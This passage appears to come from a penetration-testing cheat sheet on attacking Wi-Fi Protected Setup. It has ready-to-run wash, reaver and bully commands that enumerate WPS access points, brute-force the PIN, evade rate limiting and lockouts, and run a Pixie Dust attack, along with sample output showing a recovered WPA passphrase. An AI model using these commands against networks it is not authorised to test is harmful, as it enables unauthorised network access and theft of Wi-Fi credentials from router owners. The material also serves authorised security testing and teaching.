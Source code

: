 ### WPS Overview
- **PIN Method**: 8-digit PIN (but actually 7 digits + checksum)
- **Vulnerability**: PIN verified in two halves (4+3 digits)
- **Complexity Reduction**: ~11,000 attempts instead of 100,000,000

### WPS Enumeration
```bash
# Scan for WPS-enabled networks
sudo wash -i wlan0mon

# Show WPS information
sudo wash -i wlan0mon -s

# Filter by specific BSSID
sudo wash -i wlan0mon -b AA:BB:CC:DD:EE:FF
```

**Expected Output:**
```
BSSID                  Ch  dBm  WPS  Lck  Vendor    ESSID
AA:BB:CC:DD:EE:FF       6  -45  2.0  No   Linksys   MyNetwork
BB:CC:DD:EE:FF:00      11  -67  1.0  Yes  Netgear   GuestNet
```

### WPS PIN Attacks with Reaver
```bash
# Basic WPS PIN attack
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv

# Specify channel
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv

# Adjust timing (if getting rate limited)
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -d 60 -x 3

# Ignore locks
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -L

# Resume previous session
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -s /etc/reaver/
```

**Expected Successful Output:**
```
[+] WPS PIN: '12345670'
[+] WPA PSK: 'password123'  
[+] AP SSID: 'MyNetwork'
```

### Pixie Dust Attack (CVE-2014-4910)
```bash
# Enable pixie dust mode
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -K 1

# Alternative with bully
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -d -v 3
```
